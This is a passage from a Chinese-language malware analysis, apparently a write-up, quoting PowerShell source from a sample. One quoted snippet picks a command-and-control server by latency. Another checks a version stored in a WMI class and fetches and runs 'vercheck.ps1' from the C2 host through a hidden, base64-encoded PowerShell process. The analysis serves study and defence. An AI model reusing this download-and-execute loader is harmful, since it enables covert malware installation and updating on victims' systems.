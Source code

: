 ```powershell linenums="31"
            $avgs += $sum/$count
        }else{
            $avgs += 0
        }
        if ($i -eq 0){
            if (($avgs[0] -le 300) -and ($avgs[0] -ne 0)){
                $nic = $se[0]
                break
            }
        }
        if ($i -eq 1){
            if ($avgs[1] -ne 0){
                if (($avgs[0] -le $avgs[1]) -and ($avgs[0] -ne 0)){
                    $nic = $se[0]
                    break
                }else{
                    $nic = $se[1]
                    break
                }
            }
        }
    }
}
```

107-126 行，更新恶意软件自身：

- 请求 C2 服务器上的 `/w/ver.txt` 获取远程版本号
- 从 WMI 类的 `Window_Core_Flush_Cach` 属性中获取本地版本号
- 如果版本相同，则退出脚本
- 如果版本不同，从 C2 服务器上获取 `/vercheck.ps1` 文件并使用 PowerShell 执行

```powershell linenums="107"
$nic=$nic+(':'+'443')
if($IsInstalled)
{
    $ver=(New-Object Net.WebClient).DownloadString("http://$nic/w/ver.txt").Trim()
    if($ver -ne $null){
        $ver_tmp=([WmiClass] 'root\default:Window_Core_Flush_Cach').Properties['ver'].Value
        if($ver -eq $ver_tmp){
            exit
        }
    }
}
if (Test-Wow64)
{
    $text = "IEX ((new-object net.webclient).downloadstring('http://$nic/vercheck.ps1'))"
    $base64 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($text))
    $id = (start-process -FilePath "$env:systemroot\Sysnative\WindowsPowerShell\v1.0\powershell.exe" -ArgumentList  "-nop -noni -w hidden -enc $base64" -WindowStyle Hidden -PassThru).id
    if (($id -ne '') -and ($id -ne $null)){
        exit
    }
}
```
